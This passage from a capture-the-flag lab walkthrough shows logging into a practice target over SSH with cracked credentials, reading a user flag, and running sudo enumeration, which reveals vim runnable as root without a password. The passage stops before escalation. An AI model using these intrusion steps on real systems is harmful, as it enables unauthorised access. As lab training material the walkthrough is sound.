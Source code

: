 Cracked! This confirmed the username `mitch` and gave us a password hash with a salt as well as the password `secret` in cleartext. Important note you could have also cracked the hash with the salt using `hashcat`. With the credentials below, we can `ssh` into the target.

>**Username:** mitch

>**Password:** secret

```console
# ssh mitch@10.10.242.144 -p 2222                                                                  
The authenticity of host '[10.10.242.144]:2222 ([10.10.242.144]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.242.144]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.242.144's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$
```

## Maintaining Access / Priviledge Escalation
---

Upon exploring the target we find a flag.

```console
$ ls
user.txt
$ cat user.txt  
G00d j0b, keep up!
$
```

We also find another user.

```console
$ ls /home
mitch  sunbath
$
```

Let’s find out a way to get escalate our privileges.

```console
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$
```
